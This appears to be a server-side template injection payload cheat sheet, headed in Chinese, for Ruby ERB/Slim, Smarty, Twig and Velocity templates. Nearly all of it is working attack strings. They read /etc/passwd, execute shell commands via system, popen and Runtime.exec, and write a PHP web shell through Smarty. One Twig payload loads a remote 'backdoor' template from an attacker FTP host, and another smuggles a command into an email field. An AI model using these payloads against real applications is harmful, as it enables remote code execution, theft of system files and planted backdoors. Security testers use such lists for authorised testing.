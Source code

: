  #### Ruby
  	基本注入
	ERB：
	<%= 7 * 7 %>
	Slim：
	#{ 7 * 7 }
	读取/etc/passwd
	<%= File.open('/etc/passwd').read %>
	列出文件和目录
	<%= Dir.entries('/') %>
	ERB代码执行
	<%= system('cat /etc/passwd') %>
	<%= `ls /` %>
	<%= IO.popen('ls /').readlines()  %>
	<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
	<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
	Slim代码执行
	#{ %x|env| }
 #### Smarty
  	{$smarty.version}
	{php}echo `id`;{/php} //deprecated in smarty v3
	{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
	{system('ls')} // compatible v3
	{system('cat index.php')} // compatible v3
 #### Twig
  	基本注入
	{{7*7}}
	{{7*'7'}} would result in 49
	{{dump(app)}}
	{{app.request.server.all|join(',')}}
	任意文件读取
	"{{'/etc/passwd'|file_excerpt(1,30)}}"@
	代码执行
	{{self}}
	{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
	{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
	{{['id']|filter('system')}}
	{{['cat\x20/etc/passwd']|filter('system')}}
	{{['cat$IFS/etc/passwd']|filter('system')}}
	邮件传递 FILTER_VALIDATE_EMAIL PHP 的示例
	POST /subscribe?0=cat+/etc/passwd HTTP/1.1
	email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
 #### Velocity
  	#set($str=$class.inspect("java.lang.String").type)
	#set($chr=$class.inspect("java.lang.Character").type)
	#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
	$ex.waitFor()
	#set($out=$ex.getInputStream())
	#foreach($i in [1..$out.available()])
	$str.valueOf($chr.toChars($out.read()))
	#end